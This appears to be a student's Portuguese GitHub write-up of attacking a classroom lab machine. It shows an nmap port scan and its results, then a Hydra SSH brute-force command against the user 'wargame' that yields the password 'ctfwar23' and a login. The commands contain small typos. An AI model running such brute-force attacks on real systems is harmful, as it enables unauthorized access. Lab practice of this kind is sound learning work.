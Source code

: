 # Ataque a Máquina 

Para analisar a vulnerabilidade de uma máquina, utilizei o `Nmap` para verificar as portas abertas e os serviços em execução.

Comando Nmap:

```
map 192.168.10.41 -p- -sV 
```
![image](https://github.com/Dianilze/Dianilze/assets/133764203/38afab03-3856-4471-82b2-d92c917e5664)

E o NMAP identificou várias portas abertas e os serviços associados.

Resultado do Nmap:

* Porta 22/tcp: Aberta, serviço SSH (OpenSSH 9.2p1 Debian 2+deb12u1).
* Porta 80/tcp: Aberta, serviço HTTP (Apache httpd 2.4.57 Debian).
* Porta 443/tcp: Aberta, serviço HTTPS (Greenbone Security Assistant).
* Porta 3000/tcp: Aberta, serviço não reconhecido.
* Porta 8000/tcp: Aberta, serviço HTTP (Apache httpd 2.4.57 Debian).


Como todas as máquinas que o professor nos deu tem como o user o `wargame` então tornou mais facil.

Como a porta 22/tcp estava aberta com o serviço SSH em execução, decidi realizar um ataque de força bruta com o Hydra, considerando que todas as máquinas fornecidas pelo professor usam o usuário "wargame".

Criei uma lista `pass.txt` com os possíveis combinações.

Comando Hydra:

shell
```
hydra -l wargame -P /home/sarah/Downloads/pass.txt ssh://192.1168.10.41
```

![image](https://github.com/Dianilze/Dianilze/assets/133764203/a4d260f3-3336-4fb9-b1e1-6f9ab29998af)

O resultado foi `ctfwar23`.

Então executei ssh e consegui entrar na maquína.



  


- 👋 Hi, I’m @Dianilze
